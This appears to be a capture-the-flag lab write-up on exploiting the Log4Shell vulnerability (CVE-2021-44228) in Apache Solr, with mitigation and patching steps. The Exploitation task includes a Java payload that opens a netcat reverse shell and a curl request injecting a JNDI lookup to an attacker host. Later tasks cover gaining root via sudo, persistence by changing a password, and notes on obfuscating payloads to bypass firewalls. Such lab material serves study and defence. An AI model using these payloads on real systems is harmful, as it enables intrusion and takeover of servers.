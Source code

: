 # Solar, exploiting log4j
## Exploring CVE-2021-44228

### Task 1 CVE-2021-44228 Introduction
On December 9th, 2021 the world was made aware of a new vulnerability identified as CVE-2021-44228, affecting the Java logging package `log4j` This vulnerability earned a severity score 10.0 (Most critical designation) and offers RCE (Remote Code Execution).

Today `log4j` version `2.15.0rc2` is available and patches this vulnerability. However, millions of things use this logging package as a dependency for their code. This means there is a very big attack surface.

### Task 2 Reconaissance
The target virtual machine contains the software that utilizes the vulnerable version of `log4j` package.

We run a `nmap` scan against the machine to find out what services and ports there are on this machine.

`nmap -sv -p- $IP`

### Task 3 Discovery
The target machine is running Apache Solr 8.11.0, one example of software that is known to include this vulnerable `log4j` package. For the sake of showcasing this vulenrability, the application runs on Java 1.8.0_181

Exploring the web interface at `http://$IP:8983` to get a feel for the application.

### Task 4 Proof of Concept
Note that the URL endpoint needs to be prefaced with the `solr/` prefix when viewing it from the web interface:

`http://$IP:8983/solr/admin/cores`

You also noticed that the `params` seems to be included in the log file. The log4j package works by parsing entires, ultimately to enrich the data -- but may additionally take actions and even evaluate code based off the entry data. This is the gist of the CVE. Other syntax might be in fact *executed* as it is entered into the log files.

Some examples of snytax include:
-   `${sys:os.name}`
-   `${sys:user.name}`
-   `${log4j:configParentLocation}`
-   `${ENV:PATH}`
-   `${ENV:HOSTNAME}`
-   `${java:version}`

The format of the usual syntax that takes advantage of this looks like so:

`${jndi:ldap://ATTACKERCONTROLLEDHOST}`

The syntax includes that the log4j will invoke functionality from "JNDI" (Java Naming and Directory Interface). Ultimately this can be used to access outside resources.

Notice the `ldap://` schema. This indicates that the target will reach out to the attacker endpoint via the LDAP protocol.

This syntax can be entered **ANYWHERE that has data logged by the application**

You can supply `params` to the `/solr/admin/cores` URL, and inject the syntax. You simply supply HTTP GET variables or parameters which will then begin to be parsed by log4j.

Other locations to inject the syntax:
- Input boxes, user and password login forms
- HTTP Headers such as `User-Agent`, `X-Forwarded-For`
- Any place for user-supplied data

![[Pasted image 20211213163136.png]]

![[Pasted image 20211213163105.png]]

### Task 5 Exploitation
The `netcat` listener caught the connection but it may have seen non-printable characters. We build upon this foundation to respond with a real LDAP handler.

We utilize an open-source and public utility to stage an "LDAP Referral Server". This will redirect the initial request of the victim to another location, where you can host a secondary payload that will ultimately run code on the target.
1. `${jndi:ldap://attackerserver:1389/Resource}` -> reaches out to our LDAP Referral Server
2. LDAP Referral Server springboards the request to a secondary `http://attackerserver/resource`
3. The victim retrieves and executes the code present in `http://attackerserver/resource`

This means we need an HTTP server, which we could simply host with any of the following options (serving on port 8000)
- `python3 -m http.server`
- `php -S 0.0.0.0:8000`
- (or any other `busybox httpd` or formal web service you might like)

Run the `marshalsec` LDAP utility that is now listening on port 1389

We make the java code as the payload

```scheme
	public class Exploit{
		static {
			try {
				java.lang.Runtime.getRuntime().exec("nc -e /bin/bash $IP 9999")
			} catch (Exception e) {
				e.printStackTrace();
			}
		}
	}
```

Save this and compile it, we now get `Exploit.class`

We now host a python HTTP server on port 8000 for the redirection to go to and grab this java class file to execute.

`python -m http.server`

We then set up a netcat listener on port 9999 to capture the reverse shell from the victim machine.

The curl request now with the payload is as follows:

```scheme
	curl 'http://VICTIM_IP:8983/solr/admin/cores?foo=$\{jndi:ldap://ATTACKER_IP:1389/Exploit\}'
```

This then makes the request to the victim machine which then goes to our local LDAP redirect server listening which then forwards it to the python HTTP sever that is listening and grabs the java exploit file and executes the netcat command and giving us a reverse shell.

### Task 6 Persistence
Now that we gained access to the machine via a reverse shell, it's now time to make some persistence. Earlier from the `nmap` scan, it showed that port 22 `ssh` was open. The reverse shell says we are user `solr`

To stabalize the shell, we can do the following:

- `python3 -c "import pty; pty.spawn('/bin/bash')"`
- Press `Ctrl+Z` to background the shell
- Press `Enter`
- On local host `stty raw -echo`
- Then `fg`, then press `Enter`
- Press `Enter` two more times
- On the reverse shell `export TERM=xterm`

We run `sudo -l` and see that the user `solr` can run everything without password as *sudo*

We can run `sudo bash` to become root and then `passwd solr` to change their password.

After this we can now ssh into the machine `ssh solr@$IP` with the new password we just changed it to

### Task 7 Detection


### Task 8 Bypasses
The sntax showed was the "typical" one for performing this attack. This syntax might be caught by web application firewalls or easily detected. Because this attack leverages `log4j`, the payload can ultimately access all of the same expansion, substituion, and temlating tricks that the package makes available. This means a threat actor could use any sort of tricks to hide, mask, or obfuscate the payload.

### Task 9 Mitigation
One option for mitigation is to modify the `solr.in.sh` file with a specific syntax.

The file is located at `/etc/default/solr.in.sh`

The Apache Solr website security page explains that you can add specific syntax to the `solr.in.sh` file:

`SOLR_OPTS="$SOLR_OPTS -Dlog4j2.formatMsgNoLookups=true"`

Now no request in made to our LDAP redirect server, so then consequently the Exploit class is not grabbed and executed from the Python HTTP server listening.

### Task 10 Patching
At the time of this exercise, Apache Solr 8.11.1 has not yet been released with a formal patch for CVE-2021-44228. 

Where appropriate, please ensure you patch the `logging-log4j` package to version `2.15.0rc2` or higher.